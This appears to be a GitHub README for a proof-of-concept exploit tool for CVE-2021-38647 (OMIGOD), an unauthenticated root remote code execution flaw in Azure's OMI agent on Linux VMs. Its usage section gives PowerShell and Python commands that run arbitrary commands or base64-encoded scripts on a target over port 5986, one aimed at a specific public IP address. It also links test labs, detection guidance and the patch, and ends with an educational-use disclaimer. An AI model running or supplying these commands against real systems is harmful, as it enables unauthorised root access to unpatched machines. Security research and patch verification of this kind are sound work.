 # CVE-2021-38647

CVE-2021-38647 - POC to exploit unauthenticated RCE `#OMIGOD` on Azure UNIX/Linux VMs!

## Details

In Microsoft's Azure, the OMI application gets installed automatically when services like Azure Automation Accounts, Update Management, Log Analytics, Configuration Management, etc., are used for UNIX/Linux VM's. The OMI application also exposes the service over port 5986 if the Configuration Management service is used for managing the machine remotely. 

Anyone with network access to vulnerable endpoint can send a request that leverages the SCXcore provider without the Authorization header and execute OS commands on the target machine with root privileges!

This vulnerability is now fixed but always worth to check against Linux VMs in Azure.

## Usage

### PowerShell

```
# Execute command on the target machine.
Invoke-CVE-2021-38647 -TargetIP 127.0.0.1 -TargetPort 5986 -Command whoami
```

![](images/poc01.png)

```
# Execute script on the target machine.
$MyScript = @"
id
whoami
uname -a
"@
$enc = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($MyScript))
Invoke-CVE-2021-38647 -TargetIP 1.1.1.1 -TargetPort 5986 -Script $enc
```

![](images/poc02.png)

### Python

```
# Execute command on the target machine.
python CVE-2021-38647.py -t 40.87.92.228 -p 5986 -c id
```

![](images/poc03.png)

```
# Execute script on the target machine.
$MyScript = @"
id
whoami
uname -a
"@
$enc = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($MyScript)) #  For Windows

echo 'id' | base64 # For Linux

python CVE-2021-38647.py -t 40.87.92.228 -s ZWNobyAiIg0KZWNobyAiSGVsbG8iDQplY2hvICJHb29kYnllIg==
```

![](images/poc04.png)

## Deploy Test Environment

ARM Template to deploy on Azure - https://github.com/OTRF/Azure-Sentinel2Go/tree/master/grocery-list/Linux/demos/CVE-2021-38647-OMI

Deploy without Azure - https://rootsecdev.medium.com/creating-your-own-private-pwn-lab-for-omi-exploitation-b6919fc63956

## Detection & Mitigations

https://techcommunity.microsoft.com/t5/azure-sentinel/hunting-for-omi-vulnerability-exploitation-with-azure-sentinel/ba-p/2764093

To mitigate the vulnerability we need to update OMI agent to version 1.6.8.1 or above.

## Reference Links

https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-38647 

https://www.wiz.io/blog/omigod-critical-vulnerabilities-in-omi-azure 

https://rootsecdev.medium.com/creating-your-own-private-pwn-lab-for-omi-exploitation-b6919fc63956 

https://techcommunity.microsoft.com/t5/azure-sentinel/hunting-for-omi-vulnerability-exploitation-with-azure-sentinel/ba-p/2764093 

https://github.com/OTRF/Azure-Sentinel2Go/tree/master/grocery-list/Linux/demos/CVE-2021-38647-OMI

## Blog

https://www.alteredsecurity.com/post/omigod-cve-2021-38647

## Credit

WIZ Team - https://www.wiz.io/blog/omigod-critical-vulnerabilities-in-omi-azure

## Disclaimer

This project is meant for educational purposes only. 
The creator takes no responsibility of any mis-use of this tool.
